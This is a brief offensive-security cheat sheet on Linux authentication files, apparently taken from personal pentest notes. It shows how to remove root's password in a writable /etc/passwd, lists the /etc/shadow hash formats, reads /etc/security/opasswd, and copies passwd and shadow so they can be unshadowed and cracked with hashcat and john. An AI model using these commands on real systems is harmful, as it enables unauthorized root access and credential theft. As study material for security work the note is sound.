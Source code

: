 #linux/auth/passwd
# /etc/passwd
If its writable, remove pwd info to disable password:
```
root:x:0:0:root:/root:/bin/bash
```
to
```
root::0:0:root:/root:/bin/bash
```
# /etc/shadow
Format:
```
$<type>$<salt>$<hashed>
```
**Algorithm Types**
* `$1$` – MD5
* `$2a$` – Blowfish
* `$2y$` – Eksblowfish
* `$5$` – SHA-256
* `$6$` – SHA-512
# Opasswd
The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.
```bash
sudo cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```
# Cracking
[[hashcat]] / [[john]]
```bash
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked

john unshadow.txt --wordlist=./rock 
```
